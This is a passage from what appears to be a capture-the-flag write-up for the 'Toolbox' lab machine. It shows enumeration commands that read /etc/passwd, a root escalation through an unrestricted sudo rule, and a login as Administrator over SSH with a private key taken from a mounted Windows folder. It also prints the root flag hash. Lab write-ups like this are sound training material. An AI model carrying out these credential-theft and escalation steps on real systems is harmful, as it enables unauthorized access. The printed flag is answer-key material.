       valid_lft forever preferred_lft forever
```

Waouh, there's a few of them.

There's the classic loopback interface, but also two Ethernet interfaces, and a `sit0` interface (same as the container).

We also see a Docker interface, whose IPv4 is the one we used for SSH, and a `veth18d20dd` interface.

## Hostname

What is this VM's hostname?

```sh
docker@box:~$ hostname
```

```
box
```

Okay. I guess that's good to know.

## Local users

Let's enumerate all the local users that have a console.

```sh
docker@box:~$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
lp
tc
docker
```

So there's us, `docker`, and also `lp`, `tc` and `root`.

## Local groups

Let's retrieve the list of all local groups.

```sh
docker@box:~$ getent group | cut -d: -f1 | sort
```

```
-bash: getent: command not found
```

It doesn't work.

## User account information

Let's see to which groups we currently belong

```sh
docker@box:~$ groups
```

```
-bash: groups: command not found
```

It doesn't exist either!

## Home folder

Let's list the content of our home folder.

```sh
docker@box:~$ ls -la
```

```
<SNIP>
drwxr-sr-x    4 docker   staff          160 Dec 27 10:47 .
drwxrwxr-x    4 root     staff           80 Dec 27 10:44 ..
-rw-rw-r--    1 docker   staff            0 Oct 19  2019 .ash_history
-rw-r--r--    1 docker   staff          446 Oct 19  2019 .ashrc
-rw-rw-r--    1 docker   staff           29 Feb 21  2010 .bashrc
drwx------    2 docker   staff          100 Dec 27 10:47 .docker
-rw-r--r--    1 docker   staff           20 Oct 19  2019 .profile
drwx------    2 docker   staff          100 Jan  1  1970 .ssh
```

We don't find the user flag, and there's only hidden files and folders. We can explore them, but we find nothing.

If we list the content of `/home`, we find a home folder named `dockremap`. Once again we can explore it, but it's similar to our home folder, and there's nothing interesting.

## Command history

If we print the content of the history files in the home folders we have access to, we see that they are empty.

## Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
docker@box:~$ sudo -l
```

```
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```

Waouh, we can run anything as `root`!

# Privilege escalation (Sudo permissions)

Since we can execute anything as `root`, we can easily get an elevated shell.

## Preparation

Let's find which shells are installed on the system.

```sh
docker@box:~$ grep -v '^#' /etc/shells
```

```
/bin/sh
/bin/ash
```

Apparently there's only `sh` and `ash`... let's make sure this is the case.

```sh
docker@box:~$ awk -F: '{print $7}' /etc/passwd | sort | uniq
```

```
/bin/bash
/bin/false
/bin/sh
```

There's also `bash`!

Let's search [GTFOBins](https://gtfobins.github.io/) for this binary. We find [one entry](https://gtfobins.github.io/gtfobins/bash/), and there's [a section](https://gtfobins.github.io/gtfobins/bash/#sudo) to abuse `sudo` rights!

## Exploitation

Let's run the given command to get an elevated shell:

```sh
docker@box:~$ sudo bash
```

```
root@box:/home/docker#
```

Nice! If we run `whoami`, we can confirm that we are `root`.

# Local enumeration

## Home folder

If we check the content of `/root`, we only find a `.Xdefaults` and a `.profile` files.

## `/c` folder

If we check the root of the filesystem, we find an unusual folder: `c`. Let's get its content.

```sh
root@box:/home/docker# ls -la /c
```

```
<SNIP>
drwxr-xr-x    3 root     root            60 Dec 27 10:47 .
drwxr-xr-x   17 root     root           440 Dec 27 10:47 ..
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 Users
```

Oh? That's interesting. Let's see what this `Users` folder contains.

```sh
root@box:/home/docker# ls -la /c/Users
```

```
<SNIP>
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 .
drwxr-xr-x    3 root     root            60 Dec 27 10:47 ..
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 Administrator
ls: /c/Users/All Users: cannot read link: Protocol error
lrwxrwxrwx    1 docker   staff            0 Sep 15  2018 All Users
dr-xr-xr-x    1 docker   staff         8192 Feb 18  2020 Default
dr-xr-xr-x    1 docker   staff         8192 Feb 18  2020 Default User
dr-xr-xr-x    1 docker   staff         4096 Feb 18  2020 Public
drwxrwxrwx    1 docker   staff         8192 Feb 18  2020 Tony
-rwxrwxrwx    1 docker   staff          174 Sep 15  2018 desktop.ini
```

It really looks like a Windows `Users` folder!

It probably means that a user on Toolbox mounted this folder in the `c` directory, to have access to some files more easily.

If we explore the folders at our disposal, we find the root flag. But for good measure, let's try to obtain a proper shell as `Administrator`.

# Pivoting (SSH)

If we explore the `Administrator` folder, we find a `.ssh` folder.

```sh
root@box:/home/docker# ls -la /c/Users/Administrator/.ssh
```

```
<SNIP>
drwxrwxrwx    1 docker   staff         4096 Feb 19  2020 .
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 ..
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 authorized_keys
-rwxrwxrwx    1 docker   staff         1675 Feb 19  2020 id_rsa
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 id_rsa.pub
-rwxrwxrwx    1 docker   staff          348 Feb 19  2020 known_hosts
```

It contains a public and a private key. If we compare the content of `authorized_keys` and of the public key, we see that they match:

```sh
root@box:/home/docker# diff /c/Users/Administrator/.ssh/authorized_keys /c/Users/Administrator/.ssh/id_rsa.pub
```

## Check

Let's make sure that the private key really corresponds to the public key.

```sh
root@box:/home/docker# ssh-keygen -y -e -f /c/Users/Administrator/.ssh/id_rsa
```

```
---- BEGIN SSH2 PUBLIC KEY ----
Comment: "2048-bit RSA, converted by root@box from OpenSSH"
AAAAB3NzaC1yc2EAAAADAQABAAABAQC+jhIuWD92RK0DiMNQ3GAXyRs0AX7ohgs044J6ml
+PPpFI5C8x3TxpsbKeEozOyKJUJ4miP0vwZ9JcZkh+wAhZef2fI1oN0CmgXsx+bUoi2A75
b2YzuUCuzjOAHMwZCV4iyRC9ZNwqtA10IOP0nE0huFguEleCuj67l1boRxjOrYxI5GbsD5
5d+Y+92viETTA1QjDHag4+vZ24F+bG6EvyZlBa7lTX4il7Y2/h8BRiEoZNYePihyNTAb1d
xTSIjilwdPedc8qYaOg/KI/OlrlZ2InxCkwTf3w2d7iafE5uhZOneMZonUa6dkLKJzSJLB
6ZwEmI3J9kKFOKlaYEwrzz
---- END SSH2 PUBLIC KEY ----
```

And the public key is:

```sh
root@box:/home/docker# cat /c/Users/Administrator/.ssh/id_rsa.pub
```

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+jhIuWD92RK0DiMNQ3GAXyRs0AX7ohgs044J6ml+PPpFI5C8x3TxpsbKeEozOyKJUJ4miP0vwZ9JcZkh+wAhZef2fI1oN0CmgXsx+bUoi2A75b2YzuUCuzjOAHMwZCV4iyRC9ZNwqtA10IOP0nE0huFguEleCuj67l1boRxjOrYxI5GbsD55d+Y+92viETTA1QjDHag4+vZ24F+bG6EvyZlBa7lTX4il7Y2/h8BRiEoZNYePihyNTAb1dxTSIjilwdPedc8qYaOg/KI/OlrlZ2InxCkwTf3w2d7iafE5uhZOneMZonUa6dkLKJzSJLB6ZwEmI3J9kKFOKlaYEwrzz administrator@Toolbox
```

They're the same!

## Exploitation

I'll download the `id_rsa` file, save it in `/workspace` and change its permissions to `600`.

Now let's use it to connect as `Administrator` on Toolbox!

```sh
❯ ssh Administrator@10.10.10.236 -i /workspace/id_rsa
```

```
The authenticity of host '10.10.10.236 (10.10.10.236)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.236' (ED25519) to the list of known hosts.

Microsoft Windows [Version 10.0.17763.1039]          
(c) 2018 Microsoft Corporation. All rights reserved. 
                                                     
administrator@TOOLBOX C:\Users\Administrator>
```

It worked! If we run `whoami`, we see that we are indeed `Administrator`.

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the flag files!

That's great for us, we should be able to retrieve the flag files!

We find the user flag on Tony's Desktop. Let's get its content:

```cmd
administrator@TOOLBOX C:\Users\Administrator> type C:\Users\Administrator\Desktop\root.txt
```

```
cc9a0b76ac17f8f475250738b96261b3
```

# Afterwords



That's it for this box! The foothold was fairly easy to idnetify and to exploit, thanks to `sqlmap`. However, I found the path to `Administrator` much harder, since there was a bit of pivoting involved to get it. I'm definitely not used to such a long path, since I'm mostly doing easy boxes.

Thanks for reading!